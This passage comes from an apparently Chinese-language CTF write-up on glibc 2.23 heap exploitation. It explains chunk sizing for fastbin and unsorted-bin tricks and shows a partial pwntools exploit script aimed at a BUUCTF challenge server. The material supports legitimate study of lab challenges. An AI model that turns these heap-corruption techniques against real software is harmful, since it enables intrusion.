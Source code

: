 ```
if __name__ == "__main__":
    main()
```

## 2、5个chunk的申请

```
allocate(p,0x10) # chunk 0
allocate(p,0x10) # chunk 1
allocate(p,0x10) # chunk 2
allocate(p,0x10) # chunk 3
allocate(p,0x80) # chunk 4
```

关于大小的选择：

* chunk0、3仅用于堆溢出，大小其实无所谓，只是尽量对齐
* chunk1、2需要放入Fast Bin，不能过大，也尽量满足对齐
* chunk4，最终需要放入unsorted bin，需要满足“释放（free）的chunk大小不属于fast bin，并且该chunk不和top chunk紧邻”，先满足前半句（64位Fast Bin中能存放的默认最大值为(64 \* SIZE\_SZ / 4) = (64 \* 8 / 4) = 128B = 0x80，但是我们是申请0x80，也就意味着size的大小为0x90>0x80即不满足Fast Bin），后半句后续再处理

## 3、free chunk1、2

根据思路，为了实现双指，我们需要让两个chunk先进入Fast Bin

```
free(p,1)
free(p,2)
```

此时我们可以动态调试一下，看一下实际情况是否符合我们的预期，调试代码：

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe
context(arch="amd64",os="linux",log_level="debug")


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("node5.buuoj.cn",26330)

    return r

def allocate(p,size):
    p.sendlineafter(b'Command: ',b"1")
    p.sendlineafter(b'Size: ',str(size))

# 输入的内容（content）部分需要是字节类型
def fill(p,index,content):
    p.sendlineafter(b'Command: ',b"2")
    p.sendlineafter(b'Index: ',str(index))
    p.sendlineafter(b'Size: ',str(len(content)))
    p.sendlineafter(b'Content: ',content)
```